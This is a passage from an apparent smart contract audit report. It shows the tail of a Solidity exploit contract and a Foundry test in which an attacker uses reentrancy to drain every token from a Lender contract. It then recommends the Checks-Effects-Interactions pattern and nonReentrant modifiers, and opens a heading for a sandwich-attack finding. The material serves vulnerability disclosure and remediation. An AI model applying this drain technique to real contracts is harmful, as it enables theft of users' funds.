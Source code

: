 ```solidity
                if (lenderBalance < amount) {
                    p.poolBalance = amount - lenderBalance;
                }
                lender.setPool(p);
            }          
        }
    }

}
```
Here are the tests that can be added to `Lender.t.sol` to illustrate the steps of an attacker:
```solidity
function test_exploit() public {
	// Setup
	address attacker = address(0x5); 
	WeirdToken weirdToken = new WeirdToken(10_500*10**18); 
	weirdToken.transfer(address(lender), 9_500*10**18);
	weirdToken.transfer(address(attacker), 1_000*10**18);

	// Before the exploit
	assertEq(weirdToken.balanceOf(address(lender)), 9_500*10**18);      // Lender contract has 9_500 weirdToken
	assertEq(weirdToken.balanceOf(address(attacker)), 1_000*10**18);    // Attacker has 1_000 weirdToken

	// Exploit starts here
	vm.startPrank(attacker);
	Exploit3 attackContract = new Exploit3(lender);
	weirdToken.transfer(address(attackContract), 1_000*10**18);
	attackContract.attack(address(weirdToken), 1_000*10**18);

	// After the exploit
	assertEq(weirdToken.balanceOf(address(lender)), 0);                 // Lender contract has been drained
	assertEq(weirdToken.balanceOf(address(attacker)), 10_500*10**18);   // Attacker stole all the tokens
}
```

## Tools Used
Manual review + Foundry

## Recommendations
Follow the _Checks - Effect - Interactions_ (CEI) pattern by updating the pools mapping (Line 175) before transfering the funds AND use nonReentrant modifiers
## <a id='H-04'></a>H-04. Sandwich attack to steal all ERC-20 tokens in the Fees contract
